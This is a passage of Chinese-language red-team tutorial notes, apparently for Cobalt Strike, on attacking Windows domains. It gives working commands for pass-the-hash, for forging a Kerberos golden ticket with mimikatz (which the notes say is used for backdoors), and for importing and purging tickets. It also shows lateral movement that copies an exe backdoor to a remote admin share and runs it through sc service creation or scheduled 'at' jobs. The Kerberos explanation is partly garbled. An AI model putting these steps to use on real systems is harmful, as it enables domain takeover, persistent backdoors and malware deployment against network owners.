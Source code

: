`pth TEST1\username NTLM`

### 4.2 kerberos凭证认证

**画个重点**

```
Kerberos和密码散列认证有些不一样，但是两者同样都是使用凭据来产生标记
Kerberos票证是存储存在一个叫kerberos托盘的地方
Kerberos原理是你们可以使用一个中间人 它叫 密匙分配发送服务器 并且 密匙分配发送服务器出凭据，你们可能现在使用那个凭据一次性与服务器相互作用他会告诉服务器，我很好 这是我凭据 验证凭据这个中间人如果信任它会给我服务器的凭据 这个凭据就可以让我们保持交互 并且没有任何帐号建立 如果你们获取了一个凭据 那就集成它，然后你们就可以使用这个指定凭据来与服务器进行交互了。一般情况下我使用凭据最好使用黄金凭据。
黄金凭据是域管理员自己生成的Kerberos凭据 来用mimikatz伪造一个黄金票证 
```

有了黄金票据就有了访问域控权限限 ，通常用于后门。
		你们需要四个不同的信息。
		`用户 、域名、域id  krbtgt 的hash`

首先 `shell c:\windows\sysnative\klist` 查看本地的票据

`shell whoami/user`获取域的id

```
列举黄金票据
shell klist
64位置
shell c:\windows\sysnative\klist
kerberos_ccache_use       从ccache文件中导入票据应用于此会话
kerberos_ticket_purge     清除当前会话的票据
kerberos_ticket_use       Apply 从ticket文件中导入票据应用于此会话 
```

## 5 代码执行

方法一

```
先制作一个exe后门
然后上传到当前用户的文件夹下面
然后使用copy命令拷贝到被受信任的主机中
shell copy D:/user/admin.a.exe \\database1\C$\WINDOWS\TEMP\http.exe
shell sc \\host create name binpath= C$\WINDOWS\TEMP\http.exe
shell sc \\host start name
shell sc \\host delete name
当前执行的权限是什么返回的权限就是什么
```

方法二

```
前面的上传复制命令不变
shell net time \\host
shell at \\host 15:14 c:\path\to\bad.exe  15时14分启动服务
```

转发监听器 内网的特殊情况 kali和域控不在一个ip段内，不能相互交互，所以要用到转发监听器
